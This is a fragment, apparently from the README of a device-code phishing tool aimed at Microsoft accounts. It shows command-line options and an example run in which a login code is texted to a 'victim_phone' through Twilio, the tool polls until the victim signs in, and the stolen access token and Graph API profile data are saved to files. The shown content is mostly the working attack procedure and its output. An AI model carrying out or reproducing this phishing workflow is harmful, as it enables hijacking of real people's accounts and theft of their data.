 ```
  -G, --get-data        After authentication, collect data from Azure Graph API

  -A API, --api API     List of API endpoints to call.
                        User profile will always be included.
                        Comma delimited list

  --proxy PROXY         Proxy to pass traffic through (e.g. http://127.0.0.1:8080)

  --threads THREADS     Number of threads for multi-target runs (Default=20)

  --debug               Enable debugging output
```

#### Example

```
$ python3 pis.py -e user@example.com -p '<victim_phone>' -P '<from_phone>' \
                 -s '<twilio_sid>' -t '<twilio_token>' -c '<client_id>' --get-data

[INFO] [user@example.com] Code successfully retrieved.
[INFO] [user@example.com] Message: To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code E2XZV7VLV to authenticate.
[INFO] [user@example.com] Text message successfully sent.
[INFO] [user@example.com] Polling for user authentication...
[INFO] [user@example.com] Polling for user authentication...
[INFO] [user@example.com] Polling for user authentication...
[INFO] [user@example.com] Polling for user authentication...
[INFO] [user@example.com] Polling for user authentication...
[INFO] [user@example.com] Token info saved to user@example.com.tokeninfo.json
[INFO] [user@example.com] Azure Graph API results for 'profile' saved to user@example.com.profile.json
```
